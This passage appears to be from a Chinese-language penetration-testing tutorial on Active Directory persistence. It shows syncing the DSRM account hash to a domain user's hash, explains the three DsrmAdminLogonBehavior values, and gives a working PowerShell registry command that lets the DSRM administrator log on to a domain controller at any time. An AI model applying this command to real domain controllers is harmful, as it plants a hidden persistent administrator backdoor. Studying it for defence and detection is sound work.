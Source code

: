 ![image-20230815130725609](assets/image-20230815130725609.png)

### 4.2.3. 查看同步效果

这里我们查一下，是否已经将dsrm的hash值同步为webadmin用户的hash了。

![image-20230815131407927](assets/image-20230815131407927.png)

### 4.2.4. 修改dsrm登陆方式

dsrmadminlogonbehavior代表的是DSRM有三种登录方式

- 0：默认值，只有当域控制器重启并进入DSRM模式时，才可以使用DSRM管理员账号
- 1：只有当本地AD、DS服务停止时，才可以使用DSRM管理员账号登录域控制器
- 2：在任何情况下，都可以使用DSRM管理员账号登录域控制器

```
powershell New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD
```

